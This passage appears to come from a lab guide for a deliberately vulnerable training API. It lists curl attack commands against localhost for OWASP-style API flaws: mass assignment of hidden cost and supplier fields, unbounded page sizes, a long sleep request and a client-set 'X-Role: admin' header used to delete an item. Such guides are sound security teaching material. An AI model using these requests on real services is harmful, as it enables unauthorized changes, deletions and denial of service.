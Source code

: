 ### Attack: Create Item with Sensitive Data
```bash
# Create item with internal cost and supplier data
curl -sX POST http://localhost:3000/api/v1/items \
  -H "Authorization: Bearer $BOB_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "name":"Hacked Item",
    "description":"Created with mass assignment",
    "price":99.99,
    "costPrice":5.00,
    "supplierEmail":"internal@supplier.com"
  }' | jq .
```

**Expected Result**: Sensitive fields are accepted and stored.

## API4: Unrestricted Resource Consumption

### Attack: Unbounded Search Results
```bash
# Request massive page size
curl -sX GET "http://localhost:3000/api/v1/items/search?pageSize=100000" \
  -H "Authorization: Bearer $ALICE_TOKEN" | jq .
```

### Attack: CPU-Intensive Search
```bash
# Search with wildcard pattern (CPU intensive)
curl -sX GET "http://localhost:3000/api/v1/items/search?q=%25yoga%25" \
  -H "Authorization: Bearer $ALICE_TOKEN" | jq .
```

### Attack: Sleep Attack
```bash
# Request long sleep duration
curl -sX GET "http://localhost:3000/api/v1/sleep?ms=30000" | jq .
```

**Expected Result**: No limits enforced on resource consumption.

## API5: Broken Function Level Authorization

### Attack: Client-Controlled Role
```bash
# Delete item using client-controlled role header
curl -sX DELETE "http://localhost:3000/api/v1/items/1" \
  -H "Authorization: Bearer $ALICE_TOKEN" \
  -H "X-Role: admin" | jq .
```
